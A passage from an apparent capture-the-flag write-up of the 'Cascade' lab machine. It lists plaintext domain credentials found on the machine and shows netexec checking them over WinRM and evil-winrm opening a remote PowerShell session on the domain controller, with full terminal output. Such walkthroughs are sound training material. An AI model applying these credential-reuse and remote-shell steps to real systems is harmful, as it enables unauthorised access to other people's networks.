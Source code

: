 ![Untitled](Cascade/Untitled%202.png)

I checked the password for SMB service and it is valid and working →

![Untitled](Cascade/Untitled%203.png)

I got these credentials :

```bash
r.thompson : rY4n5eva
s.smith : sT333ve2
```
{: .nolineno}
{: .nolineno}

Lets check of winrm access →

### WinRM Session ⤵️

```bash
┌──(kali㉿kali)-[~/…/Data/IT/Temp/s.smith]
└─$ netexec winrm 10.10.10.182 -u s.smith -p 'sT333ve2'         
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
                                                                                                                                                  
┌──(kali㉿kali)-[~/…/Data/IT/Temp/s.smith]
└─$ evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'                                                                                   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
*Evil-WinRM* PS C:\Users\s.smith\Documents> hostname
CASC-DC1
*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ..
*Evil-WinRM* PS C:\Users\s.smith> tree /f /a
Folder PATH listing
Volume serial number is CF98-2F06
C:.
+---Desktop
|       user.txt
|       WinDirStat.lnk
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\s.smith>
```
{: .nolineno}
{: .nolineno}
